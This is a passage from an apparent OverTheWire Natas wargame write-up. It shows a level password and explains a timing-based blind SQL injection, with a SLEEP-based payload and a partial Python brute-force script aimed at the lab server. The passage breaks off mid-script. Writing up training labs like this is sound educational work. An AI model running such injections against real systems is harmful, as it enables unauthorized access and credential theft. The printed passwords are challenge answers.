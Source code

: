 This returns the password.

`8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

## 18

This level is similar to [16](#16), except this time no data is printed out if a
query returns data or not. We can solve this with a timed blind SQL injection.

```sql
SELECT * from USERS where username="natas18"
AND IF(password LIKE BINARY "a%", SLEEP(2), 0)
```

This query checks if user `natas18`'s password starts with the letter 'a'. If
it does, then sleep for two seconds, else do nothing. By timing the requests,
we can tell if we have a match.

```python
# -*- coding: utf-8 -*-

import logging
import string
import sys
import time

import requests
from bs4 import BeautifulSoup


logging.basicConfig(level=logging.DEBUG, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def time_get_page(query_dict):
    logger.debug("running: {0}".format(query_dict["username"]))
    query_dict["debug"] = "1"
    start = time.time()
    r = requests.get(
        "http://natas17.natas.labs.overthewire.org",
        auth=("natas17", "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"),
        params=query_dict)
    end = time.time()
    elapsed = end - start
    return elapsed


def get_password():
    # All previous passwords contined only numbers and lower/upper case
    # letters. Let's assume that the same is true for this password.
    possible_chars = "".join([
        string.lowercase,
        string.uppercase,
        "".join(map(str, range(10)))
    ])

    password = ""
    index = 0
    while True:
        if len(password) == 32:
            return password
        sql_query = \
            'natas18" AND IF(password LIKE BINARY "{0}", SLEEP(2), 0) #'
        password_times = {
```

[^1]: Hacking into systems without explicit permission is illegal.